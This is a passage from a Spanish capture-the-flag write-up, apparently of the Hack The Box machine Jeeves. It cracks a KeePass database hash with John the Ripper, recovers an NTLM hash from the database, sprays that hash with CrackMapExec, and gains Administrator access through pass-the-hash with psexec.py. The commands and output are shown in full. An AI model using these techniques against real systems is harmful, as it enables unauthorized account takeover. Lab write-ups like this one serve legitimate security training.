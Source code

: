 Una vez obtenido el hash, pasamos a realizar ataque por diccionario con **John The Ripper**:

```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hash_keepass

Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:17 DONE (2021-06-08 15:38) 0.05558g/s 3056p/s 3056c/s 3056C/s nando1..monkeybum
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Obtenemos la contraseña: **moonshine1**

Abrimos el archivo **CEH.kdbx** e introducimos la contraseña:

![](body/2033ee885cdaf03129f005ceb4efc4813996abb8.png)

El objeto que nos interesa es **Backup stuff**, si visualizamos el campo de contraseña, podemos ver que se trata de un hash **NTLM**:

![](body/6929f03464c732157ff1bf5aa7ec7e987a3a3992.png)

Podemos probar con la herramienta **CrackMapExec** si se trata de un hash válido para los usuarios **_Administrator_** y **_Kohsuke_** realizando user spraying:

```bash
# touch users && echo -e "Administrator\nKohsuke" > users | catn   
Administrator
Kohsuke

# crackmapexec smb 10.129.157.201 -u users -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' -d WORKGROUP
SMB         10.129.157.201  445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:WORKGROUP) (signing:False) (SMBv1:True)
SMB         10.129.157.201  445    JEEVES           [+] WORKGROUP\\Administrator aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

Como vemos, se trata del hash **NTLM** del usuario **Administrador**.

En este punto realizamos PassTheHass para acceder con la cuenta de Administrador, en mi caso utilizo la herramienta **psexec.py,** pero si conocéis otra, la podéis utilizar sin problema:

```bash
psexec.py Administrator@10.129.157.201 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
